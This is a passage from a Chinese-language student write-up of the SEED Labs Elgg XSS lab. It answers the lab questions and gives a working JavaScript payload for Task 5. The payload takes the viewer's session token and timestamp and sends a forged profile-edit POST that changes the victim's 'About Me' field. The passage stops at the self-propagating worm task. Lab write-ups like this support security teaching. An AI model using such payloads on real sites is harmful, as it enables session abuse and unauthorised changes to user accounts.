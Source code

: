 <img src="https://i.loli.net/2021/07/21/PZO5qHEzI7w8Nia.png" alt="image-20210720164220444" style="zoom:67%;" />

> **Question 1**: Explain the purpose of Lines 5 and 6, why are they are needed?

`ts` 和 `token` 用来验证用户身份，获取它们形成完整的 GET 请求，达到欺骗服务器的目的。

> **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, *i.e.*, you cannot switch to the Text mode, can you still launch a successful attack?

此时在 description 处无法实施攻击。但可以压行后填写在 briefdescription 处。

# Task 5: Modifying the Victim’s Profile

这个 Task 利用 js 实现 POST 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=samy%20is%20my%20hero&accesslevel[description]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

<img src="https://i.loli.net/2021/07/21/79s6XwumyCoDMhN.png" alt="image-20210720174242188" style="zoom:67%;" />

登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了

<img src="https://i.loli.net/2021/07/21/591YdwBxD7M3Xcv.png" alt="image-20210720174019161" style="zoom:67%;" />

> **Question 3**: Why do we need Line 14? Remove this line, and repeat your attack. Report and explain your observation.

这行用来判断当前用户是不是攻击者自身，如果是，就不进行攻击。如果去掉这行代码，会导致攻击者保存自己的 profile 后，description 立即被改变，无法实施攻击。

# Task 6: Writing a Self-Propagating XSS Worm

